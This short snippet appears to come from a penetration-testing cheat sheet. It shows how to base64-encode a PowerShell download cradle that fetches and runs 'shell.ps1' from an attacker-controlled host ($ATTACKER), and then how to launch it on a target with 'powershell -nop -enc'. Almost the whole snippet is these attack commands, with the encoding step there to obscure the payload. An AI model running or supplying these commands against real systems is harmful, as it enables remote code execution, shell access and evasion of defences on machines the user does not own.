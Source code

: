 # encode powershell commands as base64 with windows wide char strings
```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://$ATTACKER/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```
## Target:
```
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

